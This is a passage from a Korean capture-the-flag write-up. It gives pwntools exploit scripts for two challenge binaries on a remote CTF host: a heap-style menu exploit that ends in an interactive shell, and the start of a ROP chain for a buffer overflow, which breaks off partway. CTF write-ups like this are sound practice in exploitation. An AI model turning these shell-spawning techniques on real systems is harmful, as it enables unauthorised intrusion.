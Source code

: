 

exp.py

```python
from pwn import *

p = remote('c2w2m2.com', 4766)
#p = process('./babyuba')

p.recvuntil('It is on 0x')
check = int(p.recv(6), 16) - 0x10

payload = p64(0) + p64(check)

p.recv()
p.sendline('1')

p.recv()
p.sendline('1')

p.recv()
p.sendline('2')
p.sendline('0')

p.recv()
p.sendline('3')
p.sendline('0')
p.sendline(payload)

p.recv()
p.sendline('1')

p.recv()
p.sendline('4')

p.interactive()
```



__플래그 : flag{FuckFukc}__



### RPGame (150)

단순히 메뉴를 통해 power 값을 일정 이상 넘기면 BOF를 주는데 간단하게 ROP하면 된다.



exp.py

```python
from pwn import *

p = remote('c2w2m2.com', 4762)

#p = process('./rpggame')

e = ELF('./rpggame')
l = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

bss = e.bss()
binsh = '/bin/sh'
```